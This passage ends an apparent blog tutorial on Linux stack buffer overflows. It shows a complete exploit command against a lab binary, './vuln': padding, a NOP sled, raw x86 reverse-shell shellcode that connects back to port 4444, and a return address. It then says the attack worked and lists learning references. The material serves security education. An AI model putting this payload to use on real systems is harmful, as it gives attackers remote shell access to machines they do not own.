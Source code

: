 In this example, we take the address `0xffffd3a4`.        

Then, finally, prepare listener on port `4444` and run:           
```bash
./vuln $(python -c 'print "\x41" * (272-96-74-4) + "\x90" * 96 + "\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68\x11\x5c\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "\xa4\xd3\xff\xff"')
```

![overflow 15](/assets/images/15/2021-10-20_17-24.png){:class="img-responsive"}    

So, everything is worked perfectly :)

> This is a practical case for educational purposes only.      

[owasp buffer overflow attack](https://owasp.org/www-community/attacks/Buffer_overflow_attack)           
[exploit-db tutorial](https://www.exploit-db.com/docs/english/28475-linux-stack-based-buffer-overflows.pdf)                
[buffer overflow attack, brilliant video](https://www.youtube.com/watch?v=1S0aBV-Waeo)         
[my post about linux shellcoding part 1](/tutorial/2021/10/09/linux-shellcoding-1.html)           
[my post about linux shellcoding part 2](/tutorial/2021/10/17/linux-shellcoding-2.html)           
[The Shellcoder's Handbook](https://www.wiley.com/en-us/The+Shellcoder%27s+Handbook%3A+Discovering+and+Exploiting+Security+Holes%2C+2nd+Edition-p-9780470080238)            
[source code in Github](https://github.com/cocomelonc/2021-10-20-buffer-overflow-1)         

Thanks for your time, happy hacking and good bye!    
*PS. All drawings and screenshots are mine*















